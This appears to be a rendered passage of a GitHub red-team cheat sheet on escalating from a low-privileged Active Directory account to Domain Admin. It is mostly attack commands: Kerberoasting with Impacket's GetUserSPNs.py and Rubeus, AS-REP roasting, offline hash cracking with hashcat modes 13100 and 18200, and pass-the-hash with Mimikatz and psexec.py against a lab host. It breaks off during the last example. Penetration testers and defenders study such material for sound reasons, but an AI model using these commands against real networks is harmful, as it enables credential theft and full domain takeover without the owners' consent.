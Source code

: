 ### From Domain User to Domain Admin

Once you have a low-privileged domain account (initial foothold), escalate within AD:

- **Kerberoasting (TGS Attacks)**: Any domain user can request Kerberos service tickets for SPNs and crack them offline.
- **Discovery**: Use [GetUserSPNs.py](http://getuserspns.py/) (Impacket) or Rubeus. For example:

```
GetUserSPNs.py domain.local/user:pass -dc-ip <DC_IP> -request

```

This outputs service tickets ($krb5tgs$23$...) for each SPN account.

- **Exploit**: Crack the hash using Hashcat (-m 13100). Rubeus can automate both request and crack:

```
Rubeus.exe kerberoast /tgtdeleg
Rubeus.exe kerberoast /rc4opsec

```

Example:

```
Rubeus.exe kerberoast /creduser:DOMAIN\\JOHN /credpassword:MyP@ss /outfile:hashes.txt

```

The output hashes.txt contains Kerberoast hashes ($krb5tgs$23$...). Crack with `hashcat -m 13100 hashes.txt wordlist.txt`.

- **Post-Exploitation**: Cracked passwords give service account creds. If these are DA or compromise jump hosts, use those.
- **AS-REP Roasting**: Targets domain users with "dontRequirePreAuth" flag.
- **Discovery**: Identify users with preauth disabled. PowerView: `Get-DomainUser -PreauthNotRequired`, or LDAP filter (userAccountControl: 1.2.840.113556.1.4.803:=4194304).
- **Exploit**: Rubeus or Impacket's GetNPUsers. Example:

```
Rubeus.exe asreproast /user:TestOU3user /format:hashcat /outfile:hashes.asreproast

```

This yields an AS-REP hash ($krb5asrep$...). Crack with Hashcat mode 18200 (`hashcat -m 18200 hashes.asreproast wordlist.txt`). Once cracked, login as that user.

- **Post-Exploitation**: If the user has high privileges (e.g. Domain Admin account with preauth disabled is rare, but sometimes help-desk or admin accounts have this).
- **Pass-the-Hash (PtH)**: If you obtain an NTLM hash (e.g. via Mimikatz from LSASS or stolen DCSync), you can authenticate as that user without knowing the password. Tools: Mimikatz (`sekurlsa::pth /user:<User> /ntlm:<Hash> /run:cmd.exe`), Impacket's `psexec.py -hashes <LM>:<NT>`, or `wmiexec.py` similarly. Example:

```
psexec.py -hashes :aad3b435b51404eeaad3b435b51404ee:e8e5f72867cd11ff ... LAB\\Administrator@10.0.0.5

```
